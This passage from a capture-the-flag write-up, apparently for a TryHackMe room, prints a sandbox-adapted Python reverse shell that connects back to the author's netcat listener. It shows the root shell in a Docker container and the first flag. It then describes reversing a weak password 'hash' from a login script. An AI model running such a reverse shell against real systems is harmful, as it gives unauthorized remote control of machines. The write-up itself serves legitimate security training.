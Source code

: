 ```python
sp = __import__("subprocess", globals(), locals(), [], 0)
sc = __import__("socket", globals(), locals(), [], 0)
o = __import__("os", globals(), locals(), [], 0)

s = sc.socket(sc.AF_INET, sc.SOCK_STREAM)
s.connect(("###.###.###.###", 4444)) # your local ip goes here
o.dup2(s.fileno(), 0)
o.dup2(s.fileno(), 1)
o.dup2(s.fileno(), 2)

p = sp.call(["/bin/sh", "-i"])
```

This is your standard [Python reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), adapted to work with the limitations that the sandbox imposes. I opened up a netcat listener on my local machine and was promptly taken into the guts of the web application. Not only that, but we're root. (Or are we?) The first flag hides in plain sight in the `/root` directory.

```text
kali@kali:~$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [###.###.###.###] from (UNKNOWN) [###.###.###.###] 36270
/bin/sh: 0: can't access tty; job control turned off
# id; pwd;
uid=0(root) gid=0(root) groups=0(root)
/root/app
# cd /root
# ls -al
total 40
drwx------ 1 root root 4096 May 16 06:04 .
drwxr-xr-x 1 root root 4096 May 16 06:06 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
drwx------ 3 root root 4096 May 16 06:04 .config
drwxr-xr-x 4 root root 4096 May 16 06:04 .npm
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
drwxr-xr-x 1 root root 4096 May 16 06:04 app
-rw-rw-r-- 1 root root   38 May 16 04:55 flag1.txt
# cat flag1.txt
THM{################################}
```

### One step back, two steps forward

The `.dockerenv` file in the root directory shows that we're inside a Docker container. I spent quite a lot of time enumerating the file system in the hopes of finding an easy way out, but there was nothing to be found except what I presumed to be a mounted directory in `/mnt/log`. Again, this'll come in handy later. But I decided to take a step back and have another look around.

The script I mentioned that's responsible for checking the entered credentials on the admin login page has a sizable flaw to it. You can barely call the outcome of the functions that are applied to the password a hash, since it can be easily reversed. The "hash" is right there and the source code is unobfuscated, so I implemented the inverse of every function in JavaScript and ran the password hash through it.
